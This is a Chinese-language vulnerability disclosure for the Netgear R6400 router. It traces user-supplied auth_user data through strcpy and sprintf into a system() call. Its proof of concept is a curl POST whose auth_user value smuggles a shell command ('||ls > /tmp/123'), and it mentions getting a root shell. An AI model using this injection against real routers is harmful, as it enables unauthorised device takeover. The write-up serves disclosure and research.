 ### Netgear R6400 存在命令注入漏洞

#### 写在前面

官网：https://www.netgear.com/

固件下载地址：https://www.netgear.com/support/product/R6400.aspx#download

#### 版本证明![image-20230130194410341](img/image-20230130194410341.png)

#### 漏洞细节

![image-20230130194442485](img/image-20230130194442485.png)

程序通过获取auth_user和auth_enable数的值，传递给v22和v23

![image-20230130194504170](img/image-20230130194504170.png)

之后通过v23进行对比，如果是1，那么执行if判断下的逻辑，将v22通过acosNvramConfig_set函数设置给smtp_auth_user

![image-20230130194518411](img/image-20230130194518411.png)

在sub_9D8C函数中，通过acosNvramConfig_get函数获取stmp_auth_user的值传递给v55，之后将v55通过strcpy函数拷贝进byte_155E0中

![image-20230130194532420](img/image-20230130194532420.png)

在acosFw_EmailAuthFailNotify函数中，通过sprintf函数，将byte_155e0格式化进byte_157e8中，最后通过system函数执行byte_157e8中的内容，存在命令注入漏洞。

#### 漏洞复现和POC

1.您可以使用fat去模拟固件R6400-V1.0.1.78_1.0.50.chk

2.您可以使用下面POC进行攻击

```
curl -i -X POST http://192.168.0.1/goform/form2Dhcpip.cgi -d tokenid=xxxx -d 'auth_enable=1&auth_user="||ls > /tmp/123'
```

![image-20230130194917925](img/image-20230130194917925.png)

最后，您可以使用精心构造的好的payload获取一个稳定的root shell。